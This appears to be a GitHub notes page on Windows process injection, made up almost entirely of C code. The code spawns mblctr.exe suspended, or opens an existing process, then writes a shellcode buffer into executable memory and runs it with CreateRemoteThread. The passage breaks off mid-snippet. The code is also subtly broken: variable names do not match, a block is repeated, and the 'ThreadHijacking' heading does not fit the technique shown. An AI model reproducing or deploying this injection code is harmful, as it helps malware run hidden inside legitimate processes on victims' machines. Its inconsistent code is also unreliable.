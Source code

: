 ### ThreadHijacking
VirtualAllocEx(CreateNewProcess)
```c
char a1[] = "\xfc\xe4\xc8\x00\x41\x51...";

SIZE_T size = 0;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;
	
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);

BOOL success = CreateProcessA(
	NULL,
	(LPSTR)"C:\\Windows\\System32\\mblctr.exe",
	NULL,
	NULL,
	true,
	CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT,//有扩展启动信息的结构体
	NULL,
	NULL,
	reinterpret_cast<LPSTARTUPINFOA>(&si),
	&pi);
	
HANDLE notepadHandle = pi.hProcess;
LPVOID remoteBuffer = VirtualAllocEx(notepadHandle, NULL, sizeof data, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

WriteProcessMemory(notepadHandle, remoteBuffer, data, sizeof data, NULL);
HANDLE remoteThread = CreateRemoteThread(notepadHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

if (WaitForSingleObject(remoteThread, INFINITE) == WAIT_FAILED) {
	return 1;
}

if (ResumeThread(pi.hThread) == -1) {
	return 1;
}
```

VirtualAllocEx(Use existing app)

```c
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, false, procID);
if (hProc == INVALID_HANDLE_VALUE) {
    printf("Error opening process ID %d\n", procID);
    return 1;
}
void *alloc = VirtualAllocEx(hProc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == NULL) {
    printf("Error allocating memory in remote process\n");
    return 1;
}
if (WriteProcessMemory(hProc, alloc, shellcode, sizeof(shellcode), NULL) == 0) {
    printf("Error writing to remote process memory\n");
```